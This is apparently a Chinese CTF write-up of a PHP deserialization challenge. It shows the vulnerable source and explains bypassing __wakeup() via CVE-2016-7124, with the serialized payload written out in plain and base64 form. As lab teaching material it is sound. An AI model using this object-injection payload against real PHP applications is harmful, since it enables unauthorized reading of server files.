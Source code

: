 ~~~php
<?php 
class SoFun{ 
  protected $file='index.php';
  function __destruct(){ 
    if(!empty($this->file)) {
      if(strchr($this-> file,"\\")===false &&  strchr($this->file, '/')===false)
        show_source(dirname (__FILE__).'/'.$this ->file);
      else
        die('Wrong filename.');
    }
  }  
  function __wakeup(){
   $this-> file='index.php';
  } 
  public function __toString()
    return '' ;
  }
}     
if (!isset($_GET['file'])){ 
  show_source('index.php');
}
else{ 
  $file=base64_decode($_GET['file']); 
  echo unserialize($file); 
}
?> #<!--key in flag.php-->
~~~
可以看到，想要得到`flag`只有通过`show_source(dirname (__FILE__).'/'.$this ->file);`这条语句才可以
然而在我们进行反序列化时，`__wakeup()`就将`file`定向为`index.php`
因此我们需要绕过`__wakeup()`

#### 漏洞利用`CVE-2016-7124`
漏洞影响版本：
`PHP5 < 5.6.25`
`PHP7 < 7.0.10`
当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过`__wakeup`的执行

因此构造`payload`
`O:5:"SoFun":2:{s:7:"\00*\00file";s:5:"1.php";}`
                      ↓
                 将属性个数更改即可绕过`__wakeup()`
对`payload`进行`base64`加密
`Tzo1OiJTb0Z1biI6Mjp7czo3OiJcMDAqXDAwZmlsZSI7czo1OiIxLnBocCI7fQ==`
![NIcbnK.png](https://s1.ax1x.com/2020/06/30/NIcbnK.png)
然而`payload`并未成功

修改后发现，属性名前的`s`需要大写`S`
`O:5:"SoFun":2:{S:7:"\00*\00file";s:5:"1.php";}`
				           ↑
![NoKlUH.png](https://s1.ax1x.com/2020/07/01/NoKlUH.png)
